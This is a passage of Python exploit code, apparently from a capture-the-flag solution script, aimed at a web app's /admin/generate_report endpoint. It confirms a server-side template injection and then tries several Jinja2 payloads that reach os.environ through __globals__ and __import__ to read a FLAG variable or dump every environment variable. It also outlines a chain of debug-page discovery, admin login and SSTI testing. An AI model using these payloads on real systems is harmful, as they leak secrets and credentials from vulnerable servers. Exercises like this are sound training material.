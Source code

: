 ```python
        
        response = self.session.post(report_url, data=data)
        
        if "49" in response.text:
            print("[+] SSTI vulnerability confirmed!")
            return True
        return False
    
    def extract_flag(self):
        """Extract the flag using SSTI"""
        print("[*] Extracting flag using SSTI...")
        report_url = urljoin(self.base_url, '/admin/generate_report')
        
        # Multiple payloads to try
        payloads = [
            "{{ request.application.__globals__.__builtins__.__import__('os').environ.get('FLAG') }}",
            "{{ namespace.__init__.__globals__['os'].environ.get('FLAG') }}",
            "{{ config.get('FLAG') }}",
            "{{ request.application.__globals__.__builtins__.__import__('os').environ }}"
        ]
        
        for payload in payloads:
            print(f"[*] Trying payload: {payload[:50]}...")
            
            data = {
                'subject_ids': '1',
                'report_type': 'html',
                'custom_template': payload
            }
            
            response = self.session.post(report_url, data=data)
            
            # Look for flag pattern
            flag_match = re.search(r'sscit\{[^}]+\}', response.text)
            if flag_match:
                flag = flag_match.group(0)
                print(f"[+] Flag found: {flag}")
                return flag
                
            # Check for environment variables dump
            if "FLAG" in response.text and "sscit{" in response.text:
                print(f"[+] Flag found in environment dump!")
                print(response.text)
                return True
        
        return None
    
    def exploit(self):
        """Main exploitation flow"""
        print(f"[*] Starting exploitation of {self.base_url}")
        
        if not self.discover_debug_page():
            print("[-] Failed to access debug page")
            return False
            
        if not self.login_admin():
            print("[-] Failed to login as admin")
            return False
            
        if not self.test_ssti():
            print("[-] SSTI vulnerability not found")
            return False
```